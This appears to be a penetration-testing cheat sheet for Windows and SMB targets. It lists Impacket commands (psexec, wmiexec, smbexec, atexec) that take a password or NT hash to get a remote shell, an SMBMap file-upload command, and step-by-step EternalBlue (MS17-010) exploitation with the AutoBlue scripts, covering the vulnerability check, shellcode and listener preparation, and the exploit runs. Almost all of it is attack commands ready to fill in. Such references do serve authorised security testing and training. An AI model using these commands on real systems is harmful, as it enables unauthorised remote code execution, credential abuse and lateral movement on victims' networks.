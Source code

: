 ### Get a shell

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### Upload with SMBMap

```
smbmap -H <HOST> --upload '<TOBEUPLOADED>' '<PATH>/<UPLOADNAME>'
```

### EternalBlue (MS17-010)

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

#### Check if vulnerable

```
python eternal_checker.py <IP>
```

#### Prepare shellcodes and listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### Exploit

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```

#### If this doesn't work, try this one

```
python zzz_exploit.py <IP>
```
